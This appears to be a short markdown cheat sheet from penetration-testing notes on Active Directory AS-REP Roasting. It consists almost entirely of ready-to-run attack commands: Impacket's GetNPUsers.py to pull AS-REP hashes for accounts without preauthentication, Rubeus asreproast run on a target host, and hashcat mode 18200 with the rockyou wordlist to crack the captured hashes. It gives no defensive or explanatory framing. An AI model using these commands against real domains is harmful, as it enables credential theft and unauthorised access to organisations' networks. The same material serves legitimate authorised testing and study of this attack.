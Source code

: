 # Active Directory AS-REP Roasting

*Requirements :*   
Valid usernames list


# Retrieve TGT 
## Using Impacket
```bash
# On the local machine
GetNPUsers.py <TARGET DOMAIN>/ -dc-ip <DC IP>  -usersfile <USERLIST> -no-pass
```

## Using Rubeus
```cmd
:: Directly from the target machine
Rubeus.exe asreproast 
```

## Crack TGTs \ hashcat

```bash
hashcat -a 0 -m 18200 <HASH FILE> /usr/share/wordlists/rockyou.txt
```